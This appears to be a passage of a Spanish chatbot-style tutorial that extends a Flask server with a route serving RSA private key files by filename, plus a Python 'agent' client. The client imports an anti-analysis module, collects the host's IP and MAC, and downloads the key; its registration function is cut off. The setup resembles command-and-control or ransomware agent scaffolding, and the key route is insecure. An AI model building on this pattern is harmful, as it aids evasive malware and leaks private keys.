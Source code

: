 ### Explicación:

1.  **Ruta `/register_agent`**:
    
    *   Esta ruta sigue igual que antes, donde el archivo `.pem` se guarda en el servidor.
        
2.  **Nueva ruta `/get_private_key/<filename>`**:
    
    *   Esta es la ruta que permite descargar el archivo de clave privada desde el servidor.
        
    *   El archivo `.pem` se guarda en la carpeta `uploaded_keys`, y la ruta acepta el nombre del archivo como parámetro.
        
    *   Si el archivo existe, se devuelve al cliente como un archivo descargable usando `send_from_directory()`.
        
    *   Si el archivo no se encuentra, devuelve un error 404.
        

### 2\. Modificación del cliente para descargar la clave privada:

Ahora, vamos a modificar el cliente para que pueda descargar el archivo `.pem` desde el servidor después de registrarse.

Aquí hay un ejemplo de cómo podrías hacerlo:

```python
import requests
import socket
import os
import antianalysis

def get_ip_address():
    ip = socket.gethostbyname(socket.gethostname())
    return ip

def load_private_key():
    try:
        with open("rsa_private.pem", 'rb') as f:
            private_key = f.read()
        return private_key
    except FileNotFoundError:
        print("El archivo de clave privada no fue encontrado.")
        return None

def download_private_key():
    # Descargar la clave privada desde el servidor
    server_url = 'http://127.0.0.1:5000/get_private_key/rsa_private.pem'
    response = requests.get(server_url)

    if response.status_code == 200:
        # Guardar la clave privada en un archivo
        with open('downloaded_rsa_private.pem', 'wb') as f:
            f.write(response.content)
        print("Clave privada descargada exitosamente.")
    else:
        print(f"Error al descargar la clave privada: {response.text}")

# Función principal del agente
def register_agent():
    # Obtener IP y MAC del agente
    ip = get_ip_address()
    mac = antianalysis.get_mac_address()
    private_key = load_private_key()

    if private_key is None:
        print("No se pudo cargar la clave privada. No se puede registrar el agente.")
```